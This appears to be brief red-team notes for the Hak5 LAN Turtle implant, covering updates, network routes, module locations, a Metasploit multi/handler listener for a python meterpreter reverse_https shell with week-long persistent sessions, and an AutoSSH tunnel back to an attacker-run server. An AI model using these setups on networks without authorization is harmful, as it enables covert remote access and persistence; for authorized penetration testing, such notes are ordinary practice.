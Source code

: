 Manual updates
https://forums.hak5.org/topic/36363-guide-manually-updating-the-lan-turtle/


Network config: 

    /etc/config/network
    
   route add default gw X.X.X.X


Module locations:

    /etc/turtle/modules

 to start a module from here: ./<module> start
 
 
 
## Modules


### Meterpreter reverse shell

Setting up listener
 
    msfconsole

    use exploit/multi/handler

    set PAYLOAD python/meterpreter/reverse_https

    set LPORT/LHOST
    set SessionExpirationTimeout 604800
    set ExitOnSession false
    exploit -j

 Set up LAN Turtle

 Configure meterpreter-http with the correct IP and Port.
 
### AutoSSH
  
  Modules: autossh and keymanager
  
  Require VM with SSH server. 
  
    
  On the server create user to run the connection
  
       adduser turtle
       
       systemctl start ssh.service
  
   Use keymanager to generate keys and send the key to the server. (will be under /root/.ssh)
   
    Host: IP of SSH server
    Port: Listening port of SSH server
    User: user that was just created on server
    
  
  
  
  
  
  
  
  
  
  
 
